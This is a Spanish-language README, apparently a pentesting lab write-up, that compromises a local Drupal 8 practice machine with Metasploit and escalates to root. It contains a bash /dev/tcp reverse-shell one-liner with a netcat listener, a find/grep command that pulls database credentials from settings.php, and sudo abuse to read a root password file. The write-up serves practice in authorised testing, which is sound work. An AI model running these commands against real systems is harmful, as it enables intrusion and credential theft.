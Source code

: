 # Lab de Pentesting: Explotación y escalada de privilegios en máquina findyourstyle

Este repositorio documenta paso a paso cómo comprometer una máquina con Drupal 8 mediante un exploit conocido y escalar privilegios hasta obtener acceso root.

---

## Resumen

El objetivo fue identificar servicios expuestos, reconocer la tecnología del sitio, explotar una vulnerabilidad crítica en Drupal y, finalmente, escalar privilegios mediante análisis del sistema y abuso de binarios con privilegios.

---

## Herramientas utilizadas

- `ping`
- `nmap`
- `whatweb`
- `gobuster`
- `msfconsole`
- `netcat`


---

## Pasos realizados

### 1. Verificar conectividad con ping

    ping -c 1 172.17.0.2

![Ping a la IP](screenshots/ping.PNG)

Se comprobó que la máquina objetivo está activa.

---

### 2. Escaneo de puertos

        nmap -sC -sV -p- 172.17.0.2 -oN scan.txt

![puertos](screenshots/snaceoPuertos.PNG)


Se identificó que el sitio web utiliza **Drupal 8** en el puerto 80.

---

### 4. Enumeración de directorios con Gobuster

    gobuster dir -u http://172.17.0.2/ -w /usr/share/metasploit-framework/data/wordlists/unix_users.txt

![directorios](screenshots/enumerarDirectorios.PNG)

Se descubrieron los directorios:

- `/user`
- `/admin`

---

### 5. Explotación con Metasploit

Iniciamos Metasploit y buscamos exploits para Drupal 8:

    msfconsole
    search drupal 8



Y encontramos algunos exploits,seleccionamos el exploit:

![metasploit](screenshots/metasploit.PNG)

    use 0
    show options
    set RHOSTS 172.17.0.2
    run

Se logró obtener una **sesión meterpreter** activa.

![Ping a la IP](screenshots/meterpreter.PNG)

---

### 6. Escalada a shell interactiva

Ejecutamos:

    shell

![shell](screenshots/shell.PNG)

En la máquina atacante, se prepara el listener:

    sudo nc -lvnp 444

![nc](screenshots/netcat2.PNG)

Y en la máquina víctima:

    bash -c "bash -i >& /dev/tcp/172.17.0.1/444 0>&1"

![bash](screenshots/bash.PNG)

---

### 7. Búsqueda de credenciales en settings.php

Visitamos HackTricks y usamos el siguiente comando:

    find / -name settings.php -exec grep "drupal_hash_salt\|'database'\|'username'\|'password'\|'host'\|'port'\|'driver'\|'prefix'" {} \; 2>/dev/null

![hacktricks](screenshots/hacktricks.PNG)
![user](screenshots/userYpass.PNG)

Esto nos permitió localizar posibles credenciales de base de datos y usuarios del sistema.

---

### 8. Intento de login con usuario encontrado

![ballenita](screenshots/suBallenita.PNG)

Se prueba acceso con usuario `ballenita` pero no tiene permisos sudo. Se intenta un acceso sin TTY:

    script /dev/null -c "su ballenita"

![entrando](screenshots/entrando.PNG)

Funciona correctamente.

---

### 9. Abuso de binarios con privilegios

Se verifica que `ballenita` puede ejecutar ls y grep como root sin contraseña:

![root](screenshots/exeRoot.PNG)

Se ejecuta el comando:

    sudo /bin/ls /root

![root](screenshots/passRoot.PNG)

Se encuentra el archivo `secretitomaximo.txt` y se lee su contenido con:

    sudo /bin/grep '' /root/secretitomaximo.txt

![pass](screenshots/passRootEncontrada.PNG)

Se obtiene una posible contraseña de root.

---

### 10. Acceso root

Se prueba la contraseña obtenida y se confirma el acceso con privilegios de root.

![final](screenshots/final.PNG)

---

## Resultados finales

- Acceso root conseguido mediante explotación de Drupal 8.
- Escalada de privilegios exitosa utilizando binarios permitidos y acceso a archivos sensibles.

---

## Consideraciones

Este repositorio es para fines educativos y de práctica en pentesting ético. No debe usarse en sistemas sin autorización.
